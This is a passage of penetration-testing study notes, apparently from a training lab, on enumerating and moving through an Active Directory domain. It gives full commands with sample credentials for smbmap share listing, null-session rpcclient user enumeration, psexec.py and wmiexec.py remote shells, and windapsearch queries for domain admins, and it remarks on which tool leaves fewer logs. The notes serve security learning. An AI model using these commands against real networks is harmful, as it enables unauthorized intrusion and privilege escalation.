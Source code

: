 * `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` → this will tell us what our user can access and their permission levels.
*   `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only`

    it will show you the output of all subdirectories within the higher-level directories.

    &#x20;`--dir-only` provided only the output of all directories and did not list all files.

3️⃣ \*\*rpcclient\*\*

[rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD.&#x20;

* `rpcclient -U "" -N 172.16.5.5` → gives us null session shell on our DC using ms-rpc
*   `rpcclient **$**> queryuser 0x457` → user enumeration by RID, here hex 0x457 equals to decimal 111

    This will give info about user having RID 0x457 or decimal 111
* `rpcclient$> enumdomusers` → this will list all users along with their RID.

4️⃣ \*\*Impacket Toolkit\*\*

### Psexec.py

The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

* `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` → gives us shell

### **wmiexec.py**

Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules.&#x20;

* `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` → gives us shell

5️⃣ \*\*Windapsearch\*\*

[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

*   `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da` → gives users from domain admin group

    `--da` = enumerate domain admins group members
*   `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU` → check for users with elevated privileges

    `-PU` = find privileged users

6️⃣ \*\*Bloodhound.py\*\*

It was initially only released with a PowerShell collector, so it had to be run from a Windows host. Eventually, a Python port (which requires Impacket, `ldap3`, and `dnspython`) was released by a community member. This helped immensely during penetration tests when we have valid domain credentials, but do not have rights to access a domain-joined Windows host or do not have a Windows attack host to run the SharpHound collector from. This also helps us not have to run the collector from a domain host, which could potentially be blocked or set off alerts (though even running it from our attack host will most likely set off alarms in well-protected environments).
